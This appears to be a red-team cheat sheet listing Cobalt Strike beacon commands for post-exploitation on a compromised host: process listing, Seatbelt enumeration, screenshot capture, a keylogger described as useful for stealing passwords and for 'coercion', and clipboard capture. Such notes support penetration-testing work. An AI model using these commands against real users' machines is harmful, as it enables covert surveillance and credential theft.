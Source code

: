 ### Cobalt Strike

#### Processes

`ps` - List running processes

```sh
beacon> ps
```

#### SeatBelt

[Seatbelt](https://github.com/GhostPack/Seatbelt) is a C# tool that automatically enumerates a host

```sh
beacon> execute-assembly C:\Tools\Seatbelt.exe -group=system
```

#### Screenshots

`screenshot` - Takes a single screenshot of users Desktop

```sh
beacon> screenshot
```

`printscreen` - Takes a single screenshot using PrintScr method

```sh
beacon> printscreen
```

`screenwatch` - Takes a periodic screenshot of users Desktop

```sh
beacon> screenwatch
```

#### Keylogger

keylogger - captures user keystrokes, useful for capturing usernames, passwords, or other sensitive information. Can be useful for coercion.

```sh
beacon> keylogger

beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 6    0     keystroke logger

beacon> jobkill 6
```

#### Clipboard

`clipboard` - captures any text from users clipboard. Does not capture images or other data.
